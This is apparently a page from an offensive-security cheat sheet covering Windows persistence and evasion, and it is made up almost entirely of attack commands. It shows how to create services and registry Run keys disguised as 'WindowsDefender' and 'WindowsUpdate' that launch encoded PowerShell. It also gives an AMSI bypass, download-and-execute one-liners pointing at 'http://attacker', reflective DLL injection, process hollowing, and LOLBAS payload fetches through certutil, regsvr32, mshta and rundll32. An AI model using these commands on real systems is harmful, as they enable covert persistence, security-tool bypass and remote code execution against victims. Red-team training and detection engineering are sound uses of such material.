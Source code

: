 #### **Service Persistence**
```bash
# Create malicious service
sc create "WindowsDefender" binpath= "cmd.exe /c powershell -enc <payload>" start= auto
sc start "WindowsDefender"
```

#### **Registry Persistence**
```powershell
# Multiple registry persistence methods
New-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" -Name "WindowsDefender" -Value "powershell -enc <payload>"
New-ItemProperty -Path "HKCU:\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" -Name "WindowsUpdate" -Value "powershell -enc <payload>"
```

### **👻 Evasion Techniques**

#### **PowerShell Evasion**
```powershell
# AMSI Bypass
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)

# Execution Policy Bypass
powershell -ep bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://attacker/payload.ps1')"
powershell -w hidden -ep bypass -enc <base64_payload>

# Obfuscation
Invoke-Obfuscation
```

#### **Process Injection**
```powershell
# Reflective DLL Injection
Invoke-ReflectivePEInjection -PEUrl http://attacker/payload.dll -ProcName explorer

# Process Hollowing
Start-Process notepad.exe -WindowStyle Hidden
Invoke-ProcessHollowing -Processname notepad.exe -PayloadURL http://attacker/payload.exe
```

#### **Living Off The Land**
```bash
# LOLBAS techniques
certutil -urlcache -split -f http://attacker/payload.exe payload.exe
regsvr32 /s /n /u /i:http://attacker/payload.sct scrobj.dll
mshta http://attacker/payload.hta
rundll32 javascript:"\..\mshtml,RunHTMLApplication ";document.write();GetObject("script:http://attacker/payload.sct")
```
